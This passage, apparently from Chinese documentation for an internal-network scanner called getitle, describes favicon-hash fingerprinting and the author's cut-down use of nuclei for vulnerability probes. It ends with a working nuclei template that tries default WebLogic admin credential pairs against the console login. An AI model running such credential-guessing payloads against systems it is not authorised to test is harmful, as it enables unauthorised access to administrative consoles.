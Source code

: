 3. favicon md5 hash指纹
3. favicon mmh3 hash指纹

只需要编写yaml就能快速配置一个相对来说复杂的指纹识别. 并且不仅限于指纹识别, 一些简单的漏洞探测都可以在这里完成配置.


### 漏洞探测
我选用了目前最活跃的社区,也是代码质量相对较高, 最关键的poc可快速配置的工具nuclei.

当然, nuclei本身支持更加复杂的漏洞探测, 例如headless, 条件竞争漏洞, 需要dnslog/httplog的漏洞探测, dsl等等, 这些功能在内网并不实用, 所以我阉割了部分功能,只保留最关键的tcp与http漏洞探测.

对于大部分情况,已经够用了, 可以快速用nuclei社区移植poc到getitle中. 但是为了防止大量无效poc污染扫描结果, 我选择人工筛选poc.
​

示例: 编写一个weblogic弱口令的poc
```
id: weblogic-weak-pass

info:
  name: WebLogic weak login
  author: pdteam
  severity: high
  tags: weblogic-console

requests:
  - raw:
      - |
        POST /console/j_security_check HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Referer: {{BaseURL}}/console/login/LoginForm.jsp

        j_username={{username}}&j_password={{password}}&j_character_encoding=UTF-8
    attack: pitchfork
    payloads:
      username:
        - weblogic
        - weblogic
        - weblogic
        - weblogic
        - weblogic
        - admin
        - admin
        - system

      password:
        - weblogic
        - weblogic1
        - welcome1
        - Oracle@123
        - weblogic123
        - 12345678
        - security
        - password

    stop-at-first-match: true
    cookie-reuse: true
    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - "ADMINCONSOLESESSION"
        condition: and

```